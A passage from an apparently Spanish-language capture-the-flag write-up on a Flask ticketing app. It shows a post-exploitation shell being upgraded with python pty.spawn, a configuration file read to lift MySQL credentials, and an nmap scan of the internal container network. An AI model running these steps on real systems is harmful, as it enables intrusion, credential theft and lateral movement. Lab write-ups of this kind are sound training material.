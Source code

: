 En este caso el tratamiento de la tty lo he tenido que hacer con python.

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

Estamos en un contenedor... Si enumeramos un poco los archivos de configuración de la web podemos observar que en uno hay credenciales de conexión a una base de datos.

```python
/app/ticketer # cat database.py
#!/usr/bin/python
# -*- coding: utf-8 -*-
from flask_sqlalchemy import SQLAlchemy
from . import app
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql+pymysql://dorthi:N0Pl4c3L1keH0me@10.100.10.4/ozdb'
db = SQLAlchemy(app)

class Users(db.Model):
    __tablename__ = 'users_gbw'
    id = db.Column('id', db.Integer, primary_key=True)
    username = db.Column('username', db.Text, nullable=False)
    password = db.Column('password', db.Text, nullable=False)

class Tickets(db.Model):
    __tablename__ = 'tickets_gbw'
    id = db.Column('id', db.Integer, primary_key=True)
    ticket_name = db.Column('name', db.String(10), nullable=False)
    ticket_desc = db.Column('desc', db.Text, nullable=False)

db.create_all()
db.session.commit()

```

Si nos conectamos a esa base de datos veremos lo que enumeramos anteriormente a traves de la SQLI. Nos estamos conectando a otro host este puede tener mas puertos abiertos a parte del mysql.

Me he bajado un binario de nmap para escanear el host y solo tenia el puerto del msyql abierto. Ahora probare escanear la red en busqueda de mas hosts.

```bash
/tmp # ./nmap -sn 10.100.10.0/29
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-02-20 18:33 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 10.100.10.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000065s latency).
MAC Address: 02:42:B8:8F:64:F9 (Unknown)
Nmap scan report for ozdb.prodnet (10.100.10.4)
Host is up (0.000012s latency).
MAC Address: 02:42:0A:64:0A:04 (Unknown)
Nmap scan report for webapi.prodnet (10.100.10.6)
Host is up (0.000034s latency).
MAC Address: 02:42:0A:64:0A:06 (Unknown)
Nmap scan report for tix-app (10.100.10.2)
Host is up.
```
